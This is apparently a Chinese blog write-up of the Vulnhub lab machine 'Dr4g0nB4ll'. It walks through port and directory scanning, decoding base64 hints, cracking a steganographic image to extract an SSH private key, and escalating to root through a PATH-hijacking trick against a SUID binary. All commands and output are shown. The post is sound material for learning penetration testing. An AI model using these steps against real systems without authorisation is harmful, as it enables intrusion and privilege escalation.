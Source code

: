 ```yaml
---
title: 'Dr4g0nB4ll - Vulnhub靶机'
date: 2024-02-22 18:00:00 +0800
categories: [hack]
tags: []
---
```

### 主机发现

```shell
192.168.30.133
```

### 信息收集

```shell
└─$ nmap -sV -A 192.168.30.133
Starting Nmap 7.94 ( https://nmap.org ) at 2024-02-22 03:26 EST
Nmap scan report for 192.168.30.133
Host is up (0.0013s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey:
|   2048 b5:77:4c:88:d7:27:54:1c:56:1d:48:d9:a4:1e:28:91 (RSA)
|   256 c6:a8:c8:9e:ed:0d:67:1f:ae:ad:6b:d5:dd:f1:57:a1 (ECDSA)
|_  256 fa:a9:b0:e3:06:2b:92:63:ba:11:2f:94:d6:31:90:b2 (ED25519)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: DRAGON BALL | Aj's
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 19.56 seconds
```

查看80端口

![image-20240222162800682](../assets/img/old_imgs/image-20240222162800682.png)

浏览发现没有明显信息，同步目录爆破

```shell
PS C:\Users\qianenzhao> dirsearch.exe -u 192.168.30.133:80

  _|. _ _  _  _  _ _|_    v0.4.3.post1
 (_||| _) (/_(_|| (_| )

Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 25 | Wordlist size: 11460

Output File: C:\Users\qianenzhao\reports\_192.168.30.133_80\_24-02-22_16-23-32.txt

Target: http://192.168.30.133/

[16:23:32] Starting:
[16:23:33] 403 -  279B  - /.ht_wsr.txt
[16:23:33] 403 -  279B  - /.htaccess.bak1
[16:23:33] 403 -  279B  - /.htaccess.sample
[16:23:33] 403 -  279B  - /.htaccess_extra
[16:23:33] 403 -  279B  - /.htaccess.save
[16:23:33] 403 -  279B  - /.htaccess_orig
[16:23:33] 403 -  279B  - /.htaccess_sc
[16:23:33] 403 -  279B  - /.htaccessBAK
[16:23:33] 403 -  279B  - /.htaccessOLD2
[16:23:33] 403 -  279B  - /.htaccess.orig
[16:23:33] 403 -  279B  - /.htaccessOLD
[16:23:33] 403 -  279B  - /.htm
[16:23:33] 403 -  279B  - /.html
[16:23:33] 403 -  279B  - /.htpasswd_test
[16:23:33] 403 -  279B  - /.httr-oauth
[16:23:33] 403 -  279B  - /.htpasswds
[16:23:34] 403 -  279B  - /.php
[16:23:57] 200 -   33B  - /robots.txt
[16:23:57] 403 -  279B  - /server-status/
[16:23:57] 403 -  279B  - /server-status

Task Completed
```

发现存在robots.txt页面

访问得到如下字符`eW91IGZpbmQgdGhlIGhpZGRlbiBkaXI=`

解密得到`you find the hidden dir`

目录爆破无果，审计网站代码

![image-20240222163252652](../assets/img/old_imgs/image-20240222163252652.png)

查找子域名无果，但是发现在末尾注释中存在这样一段字符```VWtaS1FsSXdPVTlKUlVwQ1ZFVjNQUT09```

经过三次`base64`解密得到字符串`DRAGON BALL`

利用这个字符串尝试访问网站目录

![image-20240222163457164](../assets/img/old_imgs/image-20240222163457164.png)

![image-20240222163544001](../assets/img/old_imgs/image-20240222163544001.png)

> secret.txt页面

![image-20240222164314069](../assets/img/old_imgs/image-20240222164314069.png)

无法通过`submit`交互，也无法直接跳转，但是查看源代码可知这个链接打开的图片与先前发现的图片名字一致，尝试下载先前那张图片寻找突破

![image-20240222164859400](../assets/img/old_imgs/image-20240222164859400.png)

常规`binwalk`等尝试无果，尝试使用工具进行爆破

```shell
┌──(kali㉿kali)-[~]
└─$ sudo stegseek ./Desktop/aj.jpg /usr/share/wordlists/rockyou.txt
StegSeek 0.6 - https://github.com/RickdeJager/StegSeek

[i] Found passphrase: "love"
[i] Original filename: "id_rsa".
[i] Extracting to "aj.jpg.out".
```

得到密码，原文件名，打开发现是`ssh密钥`

```shell
┌──(kali㉿kali)-[~/Desktop]
└─$ cat aj.jpg.out
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
...略...
cYmthvUYneQMnt2czKF3XqEvXVPXmnbu9xt079Qu/xTYe+yHZAW5j7gzinVmrQEsvmdejq
9PpqvWzsLFnkXYEMWdKmmHqrauHOcH0hJtEmHuNxR6Zd+XjiRsPuBGxNRE22L/+j++7wxg
uSetwrzhgq3D+2QsZEbjhO+ViDtazKZVjewBCxm7O0NhPFFcfnwTOCDLg+U8Wd1uuVT1lB
Bd8180GtBAAaGtiwAAAAlrYWxpQGthbGk=
-----END OPENSSH PRIVATE KEY-----
```

该机器`ssh`端口已经暴露，尝试利用密钥`ssh`登陆，缺少用户名

回头看发现在登陆页面上有一个疑似用户名的关键词

![image-20240222180928831](../assets/img/old_imgs/image-20240222180928831.png)

搜索发现`xmen`指的是X战警，很有可能就是用户名

###获得立足点

![image-20240222181031980](../assets/img/old_imgs/image-20240222181031980.png)

😘成功得到立足点~

ps这里有个小细节,在利用密钥进行ssh登陆时,会对密钥文件有一个检测,如果该文件开放权限过高会拒绝我们的使用,如下:

![image-20240222181148990](../assets/img/old_imgs/image-20240222181148990.png)

解决办法就是更改该文件的权限:`chmod 600 filename`

### 提权

利用`find`命令查找`suid`提权

```shell
xmen@debian:~$ find / -perm -u=s -type f 2>/dev/null
/home/xmen/script/shell
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/bin/umount
/usr/bin/su
/usr/bin/mount
/usr/bin/chsh
/usr/bin/gpasswd
/usr/bin/chfn
/usr/bin/sudo
/usr/bin/newgrp
/usr/bin/passwd
```

存在一个`shell`看上去就很可疑

```shell
xmen@debian:~/script$ ls
demo.c  shell
```

```c
xmen@debian:~/script$ cat demo.c
#include<unistd.h>
void main()
{ setuid(0);
  setgid(0);
  system("ps");
}
```

甚至直接给出了源码,思路很清晰了,劫持环境变量提权

```shell
xmen@debian:~$ echo '/bin/sh' > /tmp/ps
xmen@debian:~$ chmod 777 /tmp/ps
xmen@debian:~$ export PATH=/tmp:$PATH
xmen@debian:~$ ./script/shell
# whoami
root
# id
uid=0(root) gid=0(root) groups=0(root),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev),1000(xmen)
```

```shell
# cd /root
# ls
proof.txt
# cat proof.txt
   _____ __________
  /     \\______   \          ___  ___ _____   ____   ____
 /  \ /  \|       _/          \  \/  //     \_/ __ \ /    \
/    Y    \    |   \           >    <|  Y Y  \  ___/|   |  \
\____|__  /____|_  /__________/__/\_ \__|_|  /\___  >___|  /
        \/       \/_____/_____/     \/     \/     \/     \/

join channel:   https://t.me/joinchat/St01KnXzcGeWMKSC

your flag: 031f7d2d89b9dd2da3396a0d7b7fb3e2
```

👌拿下

last:看到《红队笔记》新一期讲解这个靶机来试试，个人感觉这台靶机就像是`ctf`做题的靶机，没有什么特别的难点疑点，了解常用路数加上`ctf`的一些知识`（misc）`轻松可以拿下haha，话是这么讲但是还是被图片隐写卡住了。



